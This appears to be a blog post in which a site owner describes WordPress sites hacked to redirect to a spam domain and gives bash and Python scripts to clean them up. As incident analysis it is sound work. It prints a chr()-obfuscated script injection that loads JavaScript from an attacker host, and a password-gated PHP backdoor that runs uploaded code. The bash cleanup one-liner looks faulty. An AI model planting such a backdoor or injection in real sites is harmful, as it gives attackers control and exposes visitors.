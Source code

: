 ```yaml
---
title: Wordpress site hacked and redirects to spam site?
date: "2021-03-26"
description: "My Wordpress site hosted on Bluehost got hacked and now all my sites are redirecting to a spam site."
---
```


## Problem: Wordpress Site Hacked and Now Redirects to Spam Site

I have a number of sites hosted on a Bluehost account, and, suddenly, they were all redirecting users to some spam site. Both the subdirectories and my root site seemed to be hit.

## Steps to Fix the Problem

1. We tried working with Bluehost. They seemed to fix the problem on their end by deactivating all plugins. However, this obviously broke all of our sites (including client sites!). 
2. We began to reactivate plugins one by one on a particular site that we own, to troubleshoot what was causing the problem. As a couple of plugins were reactivated (Thrive Optimize in particular), the spammy redirection suddenly resumed specifically onthe `/wp-admin/` route. This meant we couldn't even undo the accidental activation!
3. We then downloaded our site directory from the `public_html` folder (this was a sub-directory site) to explore what the problem could be.
   1. We first searched for the URL that the user was being redirected to (`https://tron.talkingaboutfirms.ga`), but this turned up nothing, as expected.
   2. Then we inspected a number of files that a user might land on while navigating to the site initially, including an `index.php` file, which said:

```php
<?php
echo chr(60).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(32).chr(115).chr(114).chr(99).chr(61).chr(39).chr(104).chr(116).chr(116).chr(112).chr(115).chr(58).chr(47).chr(47).chr(116).chr(114).chr(111).chr(110).chr(46).chr(116).chr(97).chr(108).chr(107).chr(105).chr(110).chr(103).chr(97).chr(98).chr(111).chr(117).chr(116).chr(102).chr(105).chr(114).chr(109).chr(115).chr(46).chr(103).chr(97).chr(47).chr(109).chr(97).chr(105).chr(110).chr(46).chr(106).chr(115).chr(63).chr(115).chr(61).chr(53).chr(53).chr(51).chr(38).chr(98).chr(61).chr(50).chr(38).chr(99).chr(105).chr(100).chr(61).chr(49).chr(49).chr(49).chr(52).chr(49).chr(39).chr(32).chr(116).chr(121).chr(112).chr(101).chr(61).chr(39).chr(116).chr(101).chr(120).chr(116).chr(47).chr(106).chr(97).chr(118).chr(97).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(39).chr(62).chr(60).chr(47).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(62);die();
?>
```

The PHP function `chr()` is a character encoding. When this file’s contents are decoded (i.e. the script is executed), the resulting string is:

```html
<script src='https://tron.talkingaboutfirms.ga/main.js?s=553&b=2&cid=11141' type='text/javascript'></script>
```

Found it.

The problem is pretty clear. Why is my Wordpress site redirecting to a spam site? **This particular hack involved uploading a malicious index.php to every directory it could access, and so any folder you would access would in theory redirect you to the spammy site.**

## Fix it with Bash

To mass delete these index files in bash, use this hand bash script (credit: [Martin Beckett](https://stackoverflow.com/questions/4529134/delete-files-with-string-found-in-file-linux-cli))

```bash
find . | xargs grep -l echo chr(60).chr(115).chr(99) | awk '{print "rm "${1}}' > doit.sh
```

*Note: we didn't have complete success with this script in zshell (on Macs these days).*

## Fix it with Python

To use this python script, navigate to the directory you want to clean up, (on Mac type `cd ` with a space and then drag in the folder you want to clean up from Finder). Then open Python by typing `python`. Then paste in this script:

```python
import os
for subdir, dirs, files in os.walk(os.getcwd()): # Note: operates within the current wording directory (cwd) and all subdirectories/files
    for filename in files:
        filepath = subdir + os.sep + filename

        with open(filepath) as currentOpenFile:
            try:
                for line in currentOpenFile:
                
                    if 'echo chr(60).chr(115)' in line: # Check if any line in a file contains this string, which is the beginning of the hacked index.php file content
                        os.remove(filepath)
                        print('Removed: {0}'.format(filepath))
            except:
                print('failed on {0}'.format(filepath))
```

## Possible Cause: Thrive Themes Plugins?

As a side-note, this particular vulnerability may be related to a Thrive Themes unused-Zapier-API-key exploit. See [source](https://rootdaemon.com/2021/03/25/hackers-start-exploiting-recent-vulnerabilities-in-thrive-theme-wordpress-plugins/).

## Update

Here is the malicious code that was causing the problem (i.e. going through my site directory and creating or updating `index.php` files everywhere):

```php
if(isset($_POST['zi']) 
    && md5($_POST['zi']) == base64_decode('M2UwZWFhNWFlNGE1NzRjMGYzYjEyOTRmZGQwZTg1ZTQ=') ) {
    $lt = base64_decode($_POST['a']);file_put_contents('lte_','<?php '.$lt);$lt='lte_';
if(file_exists($lt)){
    include($lt);unlink($lt);die();
}
} else {
    echo chr(60).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(32).chr(115).chr(114).chr(99).chr(61).chr(39).chr(104).chr(116).chr(116).chr(112).chr(115).chr(58).chr(47).chr(47).chr(115).chr(116).chr(105).chr(99).chr(107).chr(46).chr(116).chr(114).chr(97).chr(118).chr(101).chr(108).chr(105).chr(110).chr(115).chr(107).chr(121).chr(100).chr(114).chr(101).chr(97).chr(109).chr(46).chr(103).chr(97).chr(47).chr(97).chr(110).chr(97).chr(108).chr(121).chr(116).chr(105).chr(99).chr(115).chr(46).chr(106).chr(115).chr(63).chr(115).chr(61).chr(48).chr(55).chr(38).chr(98).chr(61).chr(51).chr(52).chr(53).chr(38).chr(99).chr(105).chr(100).chr(61).chr(55).chr(52).chr(53).chr(55).chr(45).chr(56).chr(53).chr(45).chr(50).chr(51).chr(52).chr(54).chr(55).chr(56).chr(56).chr(45).chr(50).chr(52).chr(39).chr(32).chr(116).chr(121).chr(112).chr(101).chr(61).chr(39).chr(116).chr(101).chr(120).chr(116).chr(47).chr(106).chr(97).chr(118).chr(97).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(39).chr(62).chr(60).chr(47).chr(115).chr(99).chr(114).chr(105).chr(112).chr(116).chr(62);
}
```

Note: you will want to make sure that you don't delete index files in their entirety if they are only partly malicious code. Wordpress has important index files you will need to hang onto. If you accidentally delete one of these, you can find them in the [Wordpress source code](https://github.com/WordPress/WordPress).
